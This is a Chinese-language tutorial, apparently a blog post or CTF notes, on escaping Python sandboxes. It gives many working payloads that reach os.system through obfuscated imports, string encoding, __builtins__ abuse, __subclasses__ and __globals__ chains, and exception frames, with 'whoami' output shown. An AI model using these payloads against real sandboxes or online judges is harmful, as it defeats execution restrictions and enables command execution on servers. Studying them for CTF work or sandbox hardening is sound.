

# Python 沙箱逃逸经验总结

## 参考文章

- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python沙箱逃逸经验总结/#花式处理字符串)
- [python受限的任意代码执行与黑魔法 - Longlone's Blog](https://longlone.top/安全/安全研究/python受限的任意代码执行与黑魔法/)
- https://race.d3ctf.cn/contest/1

## 执行系统命令

### 基础知识

在 Python 中执行系统命令的方式有：

- Os
- commands：仅限 2.x
- Subprocess
- timeit：timeit.sys、timeit.timeit("__import__('os').system('whoami')", number=1)
- platform：`platform.os`、`platform.sys`、`platform.popen('whoami', mode='r', bufsize=-1).read()`
- pty：`pty.spawn('ls')`、`pty.os`
- bdb：`bdb.os`、`cgi.sys`
- cgi：`cgi.os`、`cgi.sys`

Python 脚本寻找所有导入了 `os`或者 `sys` 方法的模块：

```Python
#-*- coding:utf8 -*-
# By Macr0phag3
# in 2019-05-07 19:46:12
# ------------------------------------

# this, antigravity 库删掉
all_modules_2 = [
    'BaseHTTPServer', 'imaplib', 'shelve', 'Bastion', 'anydbm', 'imghdr', 'shlex', 'CDROM', 'argparse', 'imp', 'shutil', 'CGIHTTPServer', 'array', 'importlib', 'signal', 'Canvas', 'ast', 'imputil', 'site', 'ConfigParser', 'asynchat', 'inspect', 'sitecustomize', 'Cookie', 'asyncore', 'io', 'smtpd', 'DLFCN', 'atexit', 'itertools', 'smtplib', 'Dialog', 'audiodev', 'json', 'sndhdr', 'DocXMLRPCServer', 'audioop', 'keyword', 'socket', 'FileDialog', 'base64', 'lib2to3', 'spwd', 'FixTk', 'bdb', 'linecache', 'sqlite3', 'HTMLParser', 'binascii', 'linuxaudiodev', 'sre', 'IN', 'binhex', 'locale', 'sre_compile', 'MimeWriter', 'bisect', 'logging', 'sre_constants', 'Queue', 'bsddb', 'lsb_release', 'sre_parse', 'ScrolledText', 'bz2', 'macpath', 'ssl', 'SimpleDialog', 'cPickle', 'macurl2path', 'stat', 'SimpleHTTPServer', 'cProfile', 'mailbox', 'statvfs', 'SimpleXMLRPCServer', 'cStringIO', 'mailcap', 'string', 'SocketServer', 'calendar', 'markupbase', 'stringold', 'StringIO', 'cgi', 'marshal', 'stringprep', 'TYPES', 'cgitb', 'math', 'strop', 'Tix', 'chunk', 'md5', 'struct', 'Tkconstants', 'cmath', 'mhlib', 'subprocess', 'Tkdnd', 'cmd', 'mimetools', 'sunau', 'Tkinter', 'code', 'mimetypes', 'sunaudio', 'UserDict', 'codecs', 'mimify', 'symbol', 'UserList', 'codeop', 'mmap', 'symtable', 'UserString', 'collections', 'modulefinder', 'sys', '_LWPCookieJar', 'colorsys', 'multifile', 'sysconfig', '_MozillaCookieJar', 'commands', 'multiprocessing', 'syslog', '__builtin__', 'compileall', 'mutex', 'tabnanny', '__future__', 'compiler', 'netrc', 'talloc', '_abcoll', 'contextlib', 'new', 'tarfile', '_ast', 'cookielib', 'nis', 'telnetlib', '_bisect', 'copy', 'nntplib', 'tempfile', '_bsddb', 'copy_reg', 'ntpath', 'termios', '_codecs', 'crypt', 'nturl2path', 'test', '_codecs_cn', 'csv', 'numbers', 'textwrap', '_codecs_hk', 'ctypes', 'opcode', '_codecs_iso2022', 'curses', 'operator', 'thread', '_codecs_jp', 'datetime', 'optparse', 'threading', '_codecs_kr', 'dbhash', 'os', 'time', '_codecs_tw', 'dbm', 'os2emxpath', 'timeit', '_collections', 'decimal', 'ossaudiodev', 'tkColorChooser', '_csv', 'difflib', 'parser', 'tkCommonDialog', '_ctypes', 'dircache', 'pdb', 'tkFileDialog', '_ctypes_test', 'dis', 'pickle', 'tkFont', '_curses', 'distutils', 'pickletools', 'tkMessageBox', '_curses_panel', 'doctest', 'pipes', 'tkSimpleDialog', '_elementtree', 'dumbdbm', 'pkgutil', 'toaiff', '_functools', 'dummy_thread', 'platform', 'token', '_hashlib', 'dummy_threading', 'plistlib', 'tokenize', '_heapq', 'email', 'popen2', 'trace', '_hotshot', 'encodings', 'poplib', 'traceback', '_io', 'ensurepip', 'posix', 'ttk', '_json', 'errno', 'posixfile', 'tty', '_locale', 'exceptions', 'posixpath', 'turtle', '_lsprof', 'fcntl', 'pprint', 'types', '_md5', 'filecmp', 'profile', 'unicodedata', '_multibytecodec', 'fileinput', 'pstats', 'unittest', '_multiprocessing', 'fnmatch', 'pty', 'urllib', '_osx_support', 'formatter', 'pwd', 'urllib2', '_pyio', 'fpformat', 'py_compile', 'urlparse', '_random', 'fractions', 'pyclbr', 'user', '_sha', 'ftplib', 'pydoc', 'uu', '_sha256', 'functools', 'pydoc_data', 'uuid', '_sha512', 'future_builtins', 'pyexpat', 'warnings', '_socket', 'gc', 'quopri', 'wave', '_sqlite3', 'genericpath', 'random', 'weakref', '_sre', 'getopt', 're', 'webbrowser', '_ssl', 'getpass', 'readline', 'whichdb', '_strptime', 'gettext', 'repr', 'wsgiref', '_struct', 'glob', 'resource', 'xdrlib', '_symtable', 'grp', 'rexec', 'xml', '_sysconfigdata', 'gzip', 'rfc822', 'xmllib', '_sysconfigdata_nd', 'hashlib', 'rlcompleter', 'xmlrpclib', '_testcapi', 'heapq', 'robotparser', 'xxsubtype', '_threading_local', 'hmac', 'runpy', 'zipfile', '_warnings', 'hotshot', 'sched', 'zipimport', '_weakref', 'htmlentitydefs', 'select', 'zlib', '_weakrefset', 'htmllib', 'sets', 'abc', 'httplib', 'sgmllib', 'aifc', 'ihooks', 'sha'
]

all_modules_3 = [
    'AptUrl', 'hmac', 'requests_unixsocket', 'CommandNotFound', 'apport', 'hpmudext', 'resource', 'Crypto', 'apport_python_hook', 'html', 'rlcompleter', 'DistUpgrade', 'apt', 'http', 'runpy', 'HweSupportStatus', 'apt_inst', 'httplib2', 'scanext', 'LanguageSelector', 'apt_pkg', 'idna', 'sched', 'NvidiaDetector', 'aptdaemon', 'imaplib', 'secrets', 'PIL', 'aptsources', 'imghdr', 'secretstorage', 'Quirks', 'argparse', 'imp', 'select', 'UbuntuDrivers', 'array', 'importlib', 'selectors', 'UbuntuSystemService', 'asn1crypto', 'inspect', 'shelve', 'UpdateManager', 'ast', 'io', 'shlex', '__future__', 'asynchat', 'ipaddress', 'shutil', '_ast', 'asyncio', 'itertools', 'signal', '_asyncio', 'asyncore', 'janitor', 'simplejson', '_bisect', 'atexit', 'json', 'site', '_blake2', 'audioop', 'keyring', 'sitecustomize', '_bootlocale', 'base64', 'keyword', 'six', '_bz2', 'bdb', 'language_support_pkgs', 'smtpd', '_cffi_backend', 'binascii', 'launchpadlib', 'smtplib', '_codecs', 'binhex', 'linecache', 'sndhdr', '_codecs_cn', 'bisect', 'locale', 'socket', '_codecs_hk', 'brlapi', 'logging', 'socketserver', '_codecs_iso2022', 'builtins', 'louis', 'softwareproperties', '_codecs_jp', 'bz2', 'lsb_release', 'speechd', '_codecs_kr', 'cProfile', 'lzma', 'speechd_config', '_codecs_tw', 'cairo', 'macaroonbakery', 'spwd', '_collections', 'calendar', 'macpath', 'sqlite3', '_collections_abc', 'certifi', 'macurl2path', 'sre_compile', '_compat_pickle', 'cgi', 'mailbox', 'sre_constants', '_compression', 'cgitb', 'mailcap', 'sre_parse', '_crypt', 'chardet', 'mako', 'ssl', '_csv', 'chunk', 'markupsafe', 'stat', '_ctypes', 'cmath', 'marshal', 'statistics', '_ctypes_test', 'cmd', 'math', 'string', '_curses', 'code', 'mimetypes', 'stringprep', '_curses_panel', 'codecs', 'mmap', 'struct', '_datetime', 'codeop', 'modual_test', 'subprocess', '_dbm', 'collections', 'modulefinder', 'sunau', '_dbus_bindings', 'colorsys', 'multiprocessing', 'symbol', '_dbus_glib_bindings', 'compileall', 'nacl', 'symtable', '_decimal', 'concurrent', 'netrc', 'sys', '_dummy_thread', 'configparser', 'nis', 'sysconfig', '_elementtree', 'contextlib', 'nntplib', 'syslog', '_functools', 'copy', 'ntpath', 'systemd', '_gdbm', 'copyreg', 'nturl2path', 'tabnanny', '_hashlib', 'crypt', 'numbers', 'tarfile', '_heapq', 'cryptography', 'oauth', 'telnetlib', '_imp', 'csv', 'olefile', 'tempfile', '_io', 'ctypes', 'opcode', 'termios', '_json', 'cups', 'operator', 'test', '_locale', 'cupsext', 'optparse', 'textwrap', '_lsprof', 'cupshelpers', 'orca', '_lzma', 'curses', 'os', 'threading', '_markupbase', 'datetime', 'ossaudiodev', 'time', '_md5', 'dbm', 'parser', 'timeit', '_multibytecodec', 'dbus', 'pathlib', 'token', '_multiprocessing', 'deb822', 'pcardext', 'tokenize', '_opcode', 'debconf', 'pdb', 'trace', '_operator', 'debian', 'pexpect', 'traceback', '_osx_support', 'debian_bundle', 'pickle', 'tracemalloc', '_pickle', 'decimal', 'pickletools', 'tty', '_posixsubprocess', 'defer', 'pipes', 'turtle', '_pydecimal', 'difflib', 'pkg_resources', 'types', '_pyio', 'dis', 'pkgutil', 'typing', '_random', 'distro_info', 'platform', 'ufw', '_sha1', 'distro_info_test', 'plistlib', 'unicodedata', '_sha256', 'distutils', 'poplib', 'unittest', '_sha3', 'doctest', 'posix', 'urllib', '_sha512', 'dummy_threading', 'posixpath', 'urllib3', '_signal', 'email', 'pprint', 'usbcreator', '_sitebuiltins', 'encodings', 'problem_report', 'uu', '_socket', 'enum', 'profile', 'uuid', '_sqlite3', 'errno', 'pstats', 'venv', '_sre', 'faulthandler', 'pty', 'wadllib', '_ssl', 'fcntl', 'ptyprocess', 'warnings', '_stat', 'filecmp', 'pwd', 'wave', '_string', 'fileinput', 'py_compile', 'weakref', '_strptime', 'fnmatch', 'pyatspi', 'webbrowser', '_struct', 'formatter', 'pyclbr', 'wsgiref', '_symtable', 'fractions', 'pydoc', 'xdg', '_sysconfigdata_m_linux_x86_64-linux-gnu', 'ftplib', 'pydoc_data', 'xdrlib', '_testbuffer', 'functools', 'pyexpat', 'xkit', '_testcapi', 'gc', 'pygtkcompat', 'xml', '_testimportmultiple', 'genericpath', 'pymacaroons', 'xmlrpc', '_testmultiphase', 'getopt', 'pyrfc3339', 'xxlimited', '_thread', 'getpass', 'pytz', 'xxsubtype', '_threading_local', 'gettext', 'queue', 'yaml', '_tracemalloc', 'gi', 'quopri', 'zipapp', '_warnings', 'glob', 'random', 'zipfile', '_weakref', 'grp', 're', 'zipimport', '_weakrefset', 'gtweak', 'readline', 'zlib', '_yaml', 'gzip', 'reportlab', 'zope', 'abc', 'hashlib', 'reprlib', 'aifc', 'heapq'
]

methods = ['os', 'sys', '__builtins__']

results = {}
for module in all_modules_3:
    results[module] = {
        'flag': 0,
        'result': {}
    }

    try:
        m = __import__(module)
        attrs = dir(m)
        for method in methods:
            if method in attrs:
                result = 'yes'
                results[module]['flag'] = 1
            else:
                result = 'no'

            results[module]['result'][method] = result

    except Exception as e:
        print(e)

for result in results:
    if results[result]['flag']:
        print('[+]' + result)
        for r in results[result]['result']:
            print('  [-]' + r + ': ' + results[result]['result'][r])
```

`all_modules_2`就是 2.x 的标准库，`all_modules_3` 就是 3.x 的标准库。

结果相当多，这里就不贴了。这里注意一下，这个文件别命名为 `test.py`，如果命名为 test 会怎么样呢？可以先猜一猜，后面会给解释。

如果 oj 支持 `import` 的话，这些库都是高危的，放任不管基本上是坐等被日。所以为了避免过滤不完善导致各种问题，在 Python 沙箱套一层 docker 肯定不会是坏事。

### 花式 import

首先，禁用 `import os` 肯定是不行的，因为以下几个代码都可以 `import` 成功。

```Python
import  os
import   os
import    os
...
```

如果多个空格也过滤了，Python 能够 import 的可不止 `import`，还有 

`__import__`：`__import__('os')`（亲测 py3.10 可用）

`如果 __import__`被干了还有 

`importlib`：`importlib.import_module('os').system('ls')`（py3.10 似乎不可用？）

这样就安全了吗？实际上`import`可以通过其他方式完成。回想一下 import 的原理，本质上就是执行一遍导入的库。这个过程实际上可以用 `execfile` 来代替：

```Python
execfile('/usr/lib/python2.7/os.py')
system('ls')
```

不过要注意，2.x 才能用，3.x 删了 execfile，不过可以这样：

```Python
with open('/usr/lib/python3.6/os.py','r') as f:
    exec(f.read())

system('ls')
```

这个方法倒是 2.x、3.x 通用的。

不过要使用上面的这两种方法，就必须知道**库的路径**。其实在大多数的环境下，库都是默认路径。如果 sys 没被干掉的话，还可以确认一下，：

```Python
import sys
print(sys.path)
```

### 花式处理字符串

代码中要是出现 `os`，直接不让运行。那么可以利用字符串的各种变化来引入 `os`：

```Python
__import__('so'[::-1]).system('ls')


# 'so'[::-1] = 'os'，所以代码等效于 __import__('os').system('ls')
b = 'o'
a = 's'
__import__(a+b).system('ls')

# a+b = 'os'，所以代码等效于 __import__('os').system('ls')
```

还可以利用 `eval` 或者 `exec`：

```Python
>>> eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1]) 
# ')"imaohw"(metsys.)"so"(__tropmi__' 逆转过来是 '__import__("os").system("whoami")'
# eval 后就相当于执行了 __import__("os").system("whoami")
macr0phag3
0
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
macr0phag3
```

eval、exec 都是相当危险的函数，**exec 比 eval 还要危险，它们一定要过滤**，因为字符串有很多变形的方式，对字符串的处理可以有：逆序、拼接、base64、hex、rot13...等等，太多了。。。

```Python
['__builtins__'] == 
['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f'] == 
[u'\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f'] == 
['X19idWlsdGluc19f'.decode('base64')] ==  # 这一行似乎只有 py2.x 可以用
['__buil'+'tins__'] == 
['__buil''tins__'] == 
['__buil'.__add__('tins__')] == 
["_builtins_".join("__")] == 
['%c%c%c%c%c%c%c%c%c%c%c%c' % (95, 95, 98, 117, 105, 108, 116, 105, 110, 115, 95, 95)]
...
```

你看看最后那个格式化字符串，这不是直接起飞？啥字符构造不了

### 恢复 sys.modules

`sys.modules` 是一个字典，里面储存了加载过的模块信息。如果 Python 是刚启动的话，所列出的模块就是解释器在启动时自动加载的模块。有些库例如 `os` 是默认被加载进来的，但是不能直接使用（但是可以通过 `sys.modules` 来使用，例如 `sys.modules["os"]`），原因在于 sys.modules 中未经 import 加载的模块对当前空间是不可见的。

如果将 os 从 sys.modules 中剔除，os 就彻底没法用了：

```python
>>> sys.modules['os'] = 'not allowed'
>>> import os
>>> os.system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
>>>
```

注意，这里不能用 `del sys.modules['os']`，因为，当 import 一个模块时，比如 import A 会检查 sys.modules 中是否已经有 A，如果有则不加载，如果没有则为 A 创建 module 对象，并加载 A。

所以删了 `sys.modules['os']` 只会让 Python 重新加载一次 os。

看到这你肯定发现了，对于上面的过滤方式，绕过的方式可以是这样：

```python
sys.modules['os'] = 'not allowed' # oj 为你加的

del sys.modules['os']
import os
os.system('ls')
```

> 也就是 del 之后我再重新导入一次就可以了。

最后还有一种利用 `__builtins__` 导入的方式，下面会详细说。

### 花式执行函数

通过上面内容我们很容易发现，光引入 os 只不过是第一步，如果把 system 这个函数干掉，也没法通过 `os.system` 执行系统命令，并且这里的`system`也不是字符串，也没法直接做编码等等操作。我遇到过一个环境，直接在 `/usr/lib/python2.7/os.py` 中删了 `system` 函数。。。

不过，要明确的是，os 中能够执行系统命令的函数有很多，所以 ban 掉了 system，可以用这些函数来替代：

```python
print(os.system('whoami'))
print(os.popen('whoami').read()) 
print(os.popen2('whoami').read()) # 2.x
print(os.popen3('whoami').read()) # 2.x
print(os.popen4('whoami').read()) # 2.x
...
```

应该还有一些，可以在这里找找：
[2.x 传送门🚪](https://docs.python.org/2/library/os.html)
[3.x 传送门🚪](https://docs.python.org/3/library/os.html)

过滤 `system` 的时候说不定还有其他函数给漏了。

其次，可以通过 `getattr` 拿到对象的方法、属性：

```python
import os
getattr(os, 'metsys'[::-1])('whoami')

# getattr(os, 'metsys'[::-1]) 结果为 <built-in function system>
```




不让出现 **import** 也没事，可以继续利用 getattr 函数拿到 \_\_import\_\_。

```python
>>> getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')
```


这个方法同样可以用于逃逸过滤 import 的沙箱。关于 `__builtins__`，见下文。

与 `getattr` 相似的还有 `__getattr__`、`__getattribute__`，它们之间的区别就是 `getattr` 相当于`class.attr`，都是获取类属性/方法的一种方式，在获取的时候会触发 `__getattribute__` ，如果 `__getattribute__` 找不到，则触发 `__getattr__` ，还找不到则报错。更具体的这里就不解释了，有兴趣的话可以搜搜。

###  builtins、\_\_builtin\_\_ 与 \_\_builtins\_\_

先说一下，`builtin`、`builtins`，`__builtin__`与`__builtins__`的区别：
首先我们知道，在 Python 中，有很多函数不需要任何 import 就可以直接使用，例如`chr`、`open`。之所以可以这样，是因为 Python 有个叫`内建模块`（或者叫内建命名空间）的东西，它有一些常用函数，变量和类。顺便说一下，Python 对函数、变量、类等等的查找方式是按 `LEGB` 规则来找的，其中 B 即代表内建模块，这里也不再赘述了，有兴趣的搜搜就明白了。

在 2.x 版本中，内建模块被命名为 `__builtin__`，到了 3.x 就成了 `builtins`。它们都需要 import 才能查看：

**2.x：**

```python
>>> import __builtin__
>>> __builtin__
<module '__builtin__' (built-in)>
```

**3.x：**

```python
>>> import builtins
>>> builtins
<module 'builtins' (built-in)>
```

但是，`__builtins__` 两者都有，实际上是 `__builtin__` 和 `builtins` 的引用。它不需要导入，我估计是为了统一 2.x 和 3.x。不过 `__builtins__` 与 `__builtin__` 和 `builtins` 是有一点区别的，感兴趣的话建议查一下，这里就不啰嗦了。不管怎么样，`__builtins__` 相对实用一点，并且在  `__builtins__` 里有很多好东西：

```python
>>> '__import__' in dir(__builtins__)
True
>>> __builtins__.__dict__['__import__']('os').system('whoami')
macr0phag3
0
>>> 'eval' in dir(__builtins__)
True
>>> 'execfile' in dir(__builtins__)
True
```

这里稍微解释下 `x.__dict__` ，它是 x 内部所有属性名和属性值组成的字典，有以下特点：

1. 内置的数据类型没有 `__dict__` 属性
2. 每个类有自己的 `__dict__` 属性，就算存着继承关系，父类的 `__dict__` 并不会影响子类的 `__dict__`
3. 对象也有自己的 `__dict__` 属性，包含 `self.xxx` 这种实例属性

那么既然 `__builtins__` 有这么多危险的函数，不如将里面的危险函数破坏了：

```python
__builtins__.__dict__['eval'] = 'not allowed'
```

或者直接删了：

```python
del __builtins__.__dict__['eval']
```

但是我们可以利用 `reload(__builtins__)` 来恢复 `__builtins__`。不过，我们在使用 `reload` 的时候也没导入，说明 `reload `也在 `__builtins__` 里，那如果连 `reload` 都从 `__builtins__` 中删了，就没法恢复 `__builtins__` 了，需要另寻他法。还有一种情况是利用 `exec command in _global` 动态运行语句时的绕过，比如实现一个计算器的时候，在最后有给出例子。

这里注意，2.x 的 `reload` 是内建的，3.x 需要 `import imp`，然后再 `imp.reload`。你看，reload 的参数是 `module`，所以肯定还能用于重新载入其他模块，这个放在下面说。

### 通过继承关系逃逸

在 Python 中提到继承就不得不提 `mro`，`mro` 就是方法解析顺序，因为 Python 支持多重继承，所以就必须有个方式判断某个方法到底是 A 的还是 B 的。2.2 之前是经典类，搜索是深度优先；经典类后来发展为新式类，使用广度优先搜索，再后来新式类的搜索变为 C3 算法；而 3.x 中新式类一统江湖，默认继承 `object`，当然也是使用的 C3 搜索算法。。。扯远了扯远了，感兴趣的可以搜搜。不管怎么说，总是让人去判断继承关系显然是反人类的，所以 Python 中新式类都有个属性，`.__mro__` 或 `.mro()`，是个元组，记录了继承关系：

```python
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

> 类的实例在获取 `__class__` 属性时会指向该实例对应的类。

可以看到，`''`属于 `str `类，它继承了 `object` 类，这个类是所有类的超类。具有相同功能的还有 `__base__` 和 `__bases__` 。

> mro、base、bases 的区别在什么地方？
>
> - bases 输出父类类型的元组
> - base 输出基类，也就是第一个继承的父类
> - mro 返回类的层次结果

- 需要注意的是，**经典**类需要指明继承 object 才会继承它，否则是不会继承的：

```python
>>> class test:
...     pass
...
>>> test.__bases__
()
>>> class test(object):
...     pass
...
>>> test.__bases__
(<type 'object'>,)
```

> 什么是经典类？什么是新式类？

那么知道这个有什么用呢？

由于没法直接引入 os，那么假如有个库叫 `oos`，在 `oos` 中引入了 `os`，那么我们就可以通过 `__globals__` 拿到 os。例如，`site` 这个库就有 `os`：

```python
>>> import site
>>> site.os
<module 'os' from '/Users/macr0phag3/.pyenv/versions/3.6.5/lib/python3.6/os.py'>
```

怎么理解这个 `__globals__` 呢？它是**函数所在的全局命名空间中所定义的全局变量**。也就是只要是函数就会有这个属性，除了 `builtin_function_or_method` 或者是 `wrapper_descriptor` 、`method-wrapper` 类型的函数，例如 `range`、`range.__init__`、`''.split` 等等。

- **\_\_globals\_\_ 会返回一个字典。**

那么也就是说，能引入 site 的话，就相当于有 os。那如果 site 也被禁用了呢？没事，本来也就没打算直接 `import site`。可以利用 `reload`，变相加载 `os`：

```python
>>> import site
>>> os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'os' is not defined
>>> os = reload(site.os)
>>> os.system('whoami')
macr0phag3
0
```

还有，既然所有的类都继承的 `object` ，那么我们先用 `__subclasses__` 看看它的子类，以 2.x 为例：

```python
>>> for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print i
...
...
...
(71, <class 'site._Printer'>)

```

可以看到，site 就在里面，以 2.x 的`site._Printer`为例（ py3.x 中已经移除了这里 `__globals__` 的 `os`）：

```python
>>> ''.__class__.__mro__[-1].__subclasses__()[71]._Printer__setup.__globals__['os']
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>

>>> # 为了避免 index 位置问题，可以这样写：
>>> [i._Printer__setup.__globals__['os'] for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_Printer"]
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>
```

os 又回来了。并且 site 中还有 `__builtins__`。

这个方法不仅限于 A->os，还阔以是 A->B->os，比如 2.x 中的 `warnings`：

```python
>>> import warnings
>>> 
>>> warnings.os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'module' object has no attribute 'os'
>>> 
>>> warnings.linecache
<module 'linecache' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/linecache.pyc'>
>>>
>>> warnings.linecache.os
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>
```

在继承链中就可以这样（ py3.x 中已经移除了这里 `__globals__` 的 `linecache`）：

```python
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
macr0phag3
0
>>> # 为了避免 index 位置问题，可以这样写：
>>> [i.__init__.__globals__['linecache'].__dict__['os'].system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "catch_warnings"]
```

顺便说一下，`warnings`这个库中有个函数：`warnings.catch_warnings`，它有个`_module`属性：

```python
    def __init__(self, record=False, module=None):
...
        self._module = sys.modules['warnings'] if module is None else module
...
```

所以通过`_module`也可以构造 payload（py3.x 中已经移除了 `catch_warnings` 的 `linecache`）：

```python
>>> [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.linecache.os.system('whoami')
macr0phag3
0
```

3.x 中的`warnings`虽然没有 `linecache`，也有`__builtins__`。

同样，py3.x 中有`<class 'os._wrap_close'>`，利用方式可以为：

```python
>>> ''.__class__.__mro__[-1].__subclasses__()[133].__init__.__globals__['system']('whoami')
macr0phag3
0
>>> # 为了避免 index 位置问题，可以这样写：
>>> [i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('whoami')
```

当然这样也是可以的（3.x）：

```python
set.mro()[-1].__subclasses__()[133].__init__.__globals__['system']('whoami')
```

顺便提一下，`object` 本来就是可以使用的，如果没过滤的话，payload 可以再简化为：

```python
object.__subclasses__()[133].__init__.__globals__['system']('whoami')
# object 表示 <class 'object'>
# object.__subclasses__() 表示获取 object 类的所有子类，会返回一个由子类构成的列表。subclasses 是一个用于获取子类的方法！
# object.__subclasses__()[133] 表示获取第 134 个 子类，也就是一个 class。

# object.__subclasses__()[133].__init__ 会返回某类的包装器 wrapper，现在我也还不太明白....


```

还有一种是利用`builtin_function_or_method` 的 `__call__`：

```python
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval, '1+1')
```

或者简单一点：

```python
[].pop.__class__.__call__(eval, '1+1')
```

上面这些 payload 大多数是直接 index 了，但是直接用 index 不太健壮，可以都换成列表推导式，用 `__name__` 来获取想要的 class，上面也举了好几个例子了，这里就不多说啦。

最后再补充几个。

可以这样利用：

```python
class test(dict):
    def __init__(self):
        print(super(test, self).keys.__class__.__call__(eval, '1+1'))
        # 如果是 3.x 的话可以简写为：
        # super().keys.__class__.__call__(eval, '1+1'))
test()
```

还可以利用异常逃逸：

```python
hack = lambda : [0][1]
try:
    hack()
except Exception as e:
    e.__traceback__.tb_next.tb_frame.f_globals['__builtins__']['__import__']('os').system('whoami')
```

还可以利用 `format`：

```python
"{0.__class__.__base__}".format([])
# 上述命令等价于 [].__class__.__base__
```


```python
"{x.__class__.__base__}".format(x=[])
"{.__class__.__base__}".format([])
("{0.__class_"+"_.__base__}").format([])
```

（这里顺手记录下，对于字典键是整数型的比如 `{"1":2}`，format 是无法拿到值的 :)，这样会报错：

```python
''' {0['1']} '''.format({"1":2})
```

`'1'` 引号去掉的话又会报没有这个键，这个特性可以见[文档](https://docs.python.org/3/library/string.html#format-string-syntax)）

上面的这些利用方式总结起来就是通过 `.mro()`、`__class__`、`type(...)`、`__mro__`、`__subclasses__`、`__base__`、`__bases__` 等属性/方法去获取 `object`，再根据`__globals__`找引入的`__builtins__`或者`eval`等等能够直接被利用的库，或者找到`builtin_function_or_method`类/类型`__call__`后直接运行`eval`。

最后，其实沙箱逃逸，对于不同的第三方库可能会存在一些特殊的利用方式，比如 `jinja2`，这类属于 `SSTI` 漏洞，可以看这个：[传送门🚪](https://www.tr0y.wang/2022/04/13/SecMap-SSTI-jinja2/)，这里就不多说了。

其实 SSTI 也会用到这里的很多技巧，两者知识面相互交叠。